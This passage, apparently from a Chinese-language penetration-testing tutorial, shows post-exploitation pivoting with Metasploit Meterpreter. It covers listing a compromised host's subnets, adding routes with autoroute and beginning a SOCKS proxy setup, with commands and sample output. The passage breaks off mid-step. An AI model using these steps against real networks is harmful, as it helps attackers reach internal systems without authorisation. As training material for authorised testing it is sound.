 在获取一个 session 会话后，获取目标内网相关信息

```
meterpreter > run get_local_subnets

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 192.168.0.0/255.255.0.0
```

添加路由的方式 1：路由添加到每个网段，动态路由

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against web01.blackops.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.0.0/255.255.0.0 from host's routing table.

```

添加路由的方式 2：配置静态路由，即一次只添加一个网段路由

```
run autoroute –h //帮助命令查询
run autoroute -s 10.0.20.0/24 //静态路由添加
```

添加以后查看路由表

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.0.0        255.255.0.0        Session 3

meterpreter >
```

#### socks 代理

代理就是在我们的 vps 开启了一个 socks 代理，监听 vps 本地端口，然后再通过这个端口`将流量转给msf`，msf 转发给路由，所以能将流量直接带入到内网中

```
msf5: use auxiliary/server/socks4a    //或者   use auxiliary/server/socks5
msf6: use auxiliary/server/socks_proxy
```

先把 session1 挂起，回到 meterpeter
